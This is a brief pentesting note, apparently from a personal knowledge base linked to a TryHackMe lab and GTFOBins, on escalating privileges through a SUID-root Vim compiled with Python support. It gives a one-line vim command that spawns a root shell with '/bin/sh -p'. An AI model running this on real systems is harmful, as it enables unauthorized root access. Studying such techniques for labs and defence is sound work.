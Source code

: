 # Exploiting ViM

* **author**:: Nathan Acks  
* **date**:: 2021-11-04

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)
